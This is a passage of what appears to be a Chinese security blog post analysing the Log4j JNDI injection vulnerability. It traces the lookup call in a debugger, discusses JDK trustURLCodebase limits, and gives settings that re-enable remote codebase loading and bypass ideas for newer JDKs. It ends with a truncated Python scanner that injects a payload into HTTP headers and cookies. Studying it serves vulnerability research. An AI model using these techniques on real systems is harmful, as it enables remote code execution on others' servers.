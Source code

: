 config.getStrSubstitutor().replace(event, value)代码执行已经完成，具体如下：  
代码右键，选择：  
Evaluate Expression，参考链接：  
  
https://www.cnblogs.com/chiangchou/p/idea-debug.html  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7GPencRzcZ5JmV5ic6gNHibSmX5H8VVTDzicybFRHkQGAho2HH4I9Pqmkicg/640?wx_fmt=png "")  
  
智能步入，一行代码里有好几个方法，怎么只选择某一个方法进入。按 Force Step Into (Alt + Shift + F7)进入到方法内部，具体如图：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7G0HT18aj7DiarDnS7AvLEXmkYs698iaPB2QibMDhj43NG1yonoxJfd4tTA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7GR3GiaxxPibZSSk6dGrUW3qffNTS4GiaWicgKRcmcZEqtib6ucicuibE7bUicYw/640?wx_fmt=png "")  
  
继续深入，调用resolver.lookup方法，  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7G6pHg0a9oAYxIton1ZNonzW0p8HBiccadNcgOCkzAQoqyuFshkynav8g/640?wx_fmt=png "")  
  
而final Object value = jndiManager.lookup(jndiName);调用jndi的lookup方法，从而导致反序列化漏洞的产生。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7GKMkDh8KiahJALBec3A2Wq6CbKlpSogYq6FdGn3iaGOB4iao5uLn2ibiavDw/640?wx_fmt=png "")  
  
**用了高版本JDK，漏洞就免疫了吗？**答案：  
  
可以，首先，该漏洞能否利用与JDK版本有关，在JDK 6u211、7u201、8u191、11.0.1之后，增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。但openjdk version "11" ，包括之前版本，漏洞没有任何限制可以被利用。java 版本或log4j 版本问题，导致楼无法利用的解决办法：  
```
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7GTMfto879dicibF9fTlT2gTuteM4qMALUNGGu1I4ic4MpoDtpLP3SRvVAQ/640?wx_fmt=png "")  
  
修改com.sun.jndi.ldap.object.trustURLCodebase选项，默认为true，漏洞利用成功。  
  
高版本JDK，漏洞如何利用呢？KINGX提到了如下两种绕过方式：找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。这两种方式都非常依赖受害者本地CLASSPATH中环境，需要利用受害者本地的Gadget进行攻击。  
  
  
  
测试用例  
  
测试脚本：  
  
```
# -*- coding: UTF-8 -*-

import requests
import time

def header_scan(url, payload):
headers = {
"User-Agent": "%s Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.88 Safari/537.36" % payload,
"Connection": "close",
"Content-Length": "73",
"Accept": "text/html%s" % payload,
"Referer": "%s" % payload,
"Content-Type": "application/json; charset=UTF-8",
"Accept-Encodin": "gzip, deflate",
"Accept-Language": "zh-CN,zh;q=0.9%s" % payload,

"X-Forwarded-For": "%s" % payload,
"X-Api-Version": "%s" % payload,
}
Cookie = {"JSESSIONID": payload}
try:
```